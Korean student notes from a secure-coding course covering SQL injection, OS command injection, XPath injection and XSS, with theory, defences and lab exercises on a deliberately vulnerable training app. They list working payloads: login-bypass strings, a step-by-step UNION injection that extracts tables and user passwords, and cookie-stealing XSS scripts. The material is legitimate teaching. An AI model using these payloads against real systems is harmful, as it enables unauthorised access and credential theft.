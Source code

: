 # SecureCoding-Study
시큐어코딩 수업
실습, 이론
C:\SecureCoding
# 11주차
# SQL 삽입공격
### -이론-
동적 쿼리 SQL문 사용할때 
외부 입력값에 따라 쿼리문에 구조가 바뀌는 취약점을 이용
-피해유형
1. DB 정보 열람 및 추가 , 삭제 가능
2. 프로시저를 통해 운영체제 명령어 수행
3. 웹 애플리케이션을 조정해 다른 시스템을 공격
4. 불법 로그인
- 공격의 유형
1. Form Based SQL 삽입
 웹사이트페이지 Form에서 로그인할때 칸에
  sql문으로 사용할수 있는 특수문자 이용히여 공격
2. UNION SQL 삽임
 웹애플리케이션이 조회결과를 리스트로 출력하는 화면을 가진경우
- 방어
1. 정적쿼리를 사용 
PreparedStatement 을 사용 정적쿼리 방식으로 미리만들어진 쿼리문을
활용 외부입력값은 set메소드를 입력 -> 쿼리 구조가 변조 방지
2. 동적쿼리일때
특수문자 및 SQL 명령문으로 사용되는 키워드 철저히 제거

### -실습-
실습환경: 1. 웹 애플리케이션 서버는 사용자의 입력을 받아
            동적 쿼리에 사용하고 있음
         2. 화이트리스트 기반의 필터링을 전혀 사용하지 않음
         ---> sql삽입공격에 매우 취약함
         ID :test PW:test 
 
1. 비정상적인 입력 값으로 인증 우회가능성 확인
1) ID :'or'a-'='a  PW :  ID :'or'a-'='a
 --> HTTP Status 500 Error 발생
 too many results 구문이 있다 
 -> 정상적인 상황보다 많은정보를 요청하여 서버가표시할수없음
 항상참값이 봔환되어 모든테이블의 정보를 확인하라는 명령으로 변경되었다.
 
2) ID:admin'#  PW:aaa 
 --> 관리자 모드로 로그인
 
 2. UNION SQL 삽입공격 실습
  :UNION SQL 삽입 취약점을 이용하여 단계적으로 보안 자산의 정보추출
   공격자가 원하는 중요 정보 자산을 탈취하는 공격 과정
  시큐어코딩테스트-> SQL 인젝션 -> MYSQL 인젝션 -> ID:admin
 
 1) ID:admin'union select 1,2,3,4# --> DB에서 사용하는 컬럼의개수 확인 ->에러
 2) 순차적으로 컬럼을 높여감 ID:admin'union select 1,2,3,4,5# -> 에러
 3) ID:admin'union select 1,2,3,4,5,6# --> 정보가 나타남
   -> 따라서 DB컬럼개수:6개 -> 향후 공격에서 컬럼6개로 맞춰주고,1~4번 컬럼에
   악성 쿼리문을 삽입하면 정보 유출가능성이 있다.
 4) DBMS버전 확인 ID:admin'union select version(),2,3,4,5,6#
  -> Union select와 버전 키워드를 사용함으로써 해당 DBMS의 버전정보를 얻어올수있음
 5) 공격대상 DM목록 확인 
  -> ID:admin'union select schema_name,2,3,4,5,6 from     
     information_schema.schemata#
 6) 특정 DB선정후 ,테이블 목록확인
  -> ID:admin'union select group_concat(table_name),2,3,4,5,6 from
     information_schema.tables where table_shema=database()#
 7) 테이블의 컬럼 명 확인
   -> ID:admin'union select group_concat(column_name),2,3,4,5,6 from
     information_schema.columns where table_name='board_member'#
 8) 컬럼 데이터 추출
   -> ID:admin'union select idx,userid,userpw,username,5,6
      from board_member#
 
 학생활동 --> 기말대체 과제일수도있다.
 1. SQL삽입공격의실제사례를분석해본다
 2. SQL 삽입공격의유형을조사해본다
 3. 보안정보공유체계(CVE, CWE, NVD)에서SQL 삽입공격을찾아본다.
 4. SQL 삽입공격유형별방어대책에대해조사해본다  --> 디테일하게 기말대체는 보지않는다.
https://cwe.mitre.org/data/definitions/1350.html
https://cwe.mitre.org/data/definitions/89.html
https://www.cvedetails.com/cve/CVE-2021-27928/
https://mariadb.com/kb/en/security/
들어가서 cwe list -> latest version -> 네랴서 cwe top25
아니면 구글에 ex) sql-injection cve -> detail 들어가기 
         

# 12주차
# 운영체제 명령어 삽입
개요 : 적절한 검증 절차를 거치지 않은 웹페이지나 웹서버에서 사용자가 입력값이
      명령어의 일부 또는 전부로 구성되어 실행되는 경우 의도하지 않은 시스템
      명령어가 실행되어 부적절하게 권한이 변경되거나 시스템 동작에 악영향을 미친다.
      
<공격>
 프록시 파로스 키고  request 잡고 시큐어코딩테스트 -> 명령어 인젝션
 data=dir 을 받으면 웹서버에서는 자신의 디렉토리정보를 윈도우 커맨드로 날린다음
 화면에 나타나졋다. 이것을 예측해 data=notepad 로 변경하면 메모장이 켜진다.
 
 <방어>
 data=type 을 바로 받아서 커맨드를 바로 사용하는 것이 아니라
 index나 정수 값을 받아서 그것에 매칭되는 커맨드를 배열에 꺼내 사용하면
 약속된 커맨드만 서버쪽으로 전달할수있다.
 
 실습: openeg->src-> testcontroller.java
   -> #Command 인젝션으로 가서 -> 코드 수정
   
   
# XPath 삽입
XML 문서에 저장된 데이터를 애플리케이션에서 검색하거나
추출하기 위해 사용하는 표현방식
ex) product id=3 인 제품의 price를 추출하라
 -> /catalog/product [@id=3]/price
Xpath 삽입 취약점 발생원인 : 사용자가 입력을 받아, 입력값에 대한 검증없이,
동적으로 XPath 쿼리를 생성하면 공격자가 해당 쿼리 문의 의미를 수정할 수 있음.

XPath 인젝션

# XSS (크로스 사이트 스크립팅) 공격
### -이론-
취약점 : 외부 입력값이 충분한 검증없이
        동적으로 생성되는 응답 페이지에 사용되는 경우

공격유형
1. Reflective XSS  : 공격자가 악성 스크립트가 포합된 url을 클라이언트에 노출
                     클릭유도 -> 악성행위 수행
2. Stored XSS : 악성 스크립트를 데이터베이스에 저장
                모든 사용자들이 해당 스크립트 실행 -> 악성행위수행

1.Reflective XSS
  반사공격 -> 공격 대상 브라우저가 신뢰하고 있는 웹서버 이용
  
2.Sored XSS
  대다수의 개발자가 데이터베이스를 읽어서 할때는 XSS 취약점
  검증을 철저하게 수행하지않는 특징
  
XSS 취약점 발생원인
: JSP, Servlet 코드에서 외부 사용자의 입력값& DB검색한 결과값을 검증하지않고
 응답의 일부로 사용하기 때문
 
XSS 공격차단
1. 입출력값에 필터링 적용
   http헤더,쿠키,쿼리문자열,폼필드,히든필드 등 정규식을 사용하여 검증
2. 오픈소스 라이브러리 활용 XSS Filter
  인코딩규칙 까지 충분히 감안해야해서 필터를 직접 만들기는 어려움
  -> 잘 검증된 필터 적용

### -실습-
Reflective XSS         
1. 경고창을 띄울 수 있는 스크립트 입력 값으로 사용하기
 <script>alert("xss");</script>
2. url 인코딩 값 이용하여 경고창 띄우기
3. 경고창 팝업 이용하여 쿠키 값 확인하기 
   <script>alert(document.cookie)</script>-> 확인할수없음
   -> 공격실패가 아닌, 보안옵션이 클라이언트pc에 설정되어있는것
   -> 보안옵션해제 -> F12, Application, cookie, locathost, httponly해지
   -> 다시공격하면 세션아이디확인 , httponly(반사공격을 막아내는 보안옵션)


         
         
         
         
         
         
         
         
         
